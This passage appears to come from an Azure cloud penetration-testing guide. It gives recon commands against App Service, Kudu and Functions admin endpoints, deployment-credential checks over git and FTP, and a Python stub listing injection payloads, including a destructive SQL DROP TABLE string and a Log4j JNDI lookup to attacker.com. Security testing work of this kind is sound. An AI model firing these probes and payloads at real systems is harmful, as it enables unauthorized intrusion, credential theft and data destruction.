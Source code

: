 #### Azure Container Registry (ACR) Testing
```bash
# ACR vulnerability assessment
az acr repository list --name myregistry
az acr repository show-tags --name myregistry --repository myapp

# Container image scanning
docker pull myregistry.azurecr.io/myapp:latest
trivy image myregistry.azurecr.io/myapp:latest
```

## 4. Azure PaaS Security Testing

### 4.1 Azure App Service Testing

#### App Service Configuration Assessment
```bash
# App Service information disclosure
curl -s "https://target.azurewebsites.net/.well-known/host.json"
curl -s "https://target.scm.azurewebsites.net/api/settings"
curl -s "https://target.scm.azurewebsites.net/api/logs/recent"

# App Service file system access
curl -s "https://target.scm.azurewebsites.net/api/vfs/site/wwwroot/"
curl -s "https://target.scm.azurewebsites.net/api/vfs/LogFiles/"
```

#### Deployment Credential Testing
```bash
# Test deployment credentials
git clone https://\$target:password@target.scm.azurewebsites.net:443/target.git

# FTP access testing
ftp target.ftp.azurewebsites.windows.net
# Username: target\\$target
# Password: deployment_password
```

### 4.2 Azure Functions Security Testing

#### Function App Reconnaissance
```bash
# Function app discovery
curl -s "https://target.azurewebsites.net/admin/host/status" 
curl -s "https://target.azurewebsites.net/admin/functions"

# Function keys enumeration
curl -s "https://target.azurewebsites.net/admin/functions/function-name/keys"
```

#### Serverless Injection Testing
```python
# Function injection testing
import requests
import json

def test_function_injection(function_url, function_key):
    # Test various injection payloads
    payloads = [
        {"name": "'; DROP TABLE users; --"},
        {"name": "<script>alert('XSS')</script>"},
        {"name": "{{7*7}}"},  # Template injection
        {"name": "${jndi:ldap://attacker.com/}"}  # Log4j style
    ]
```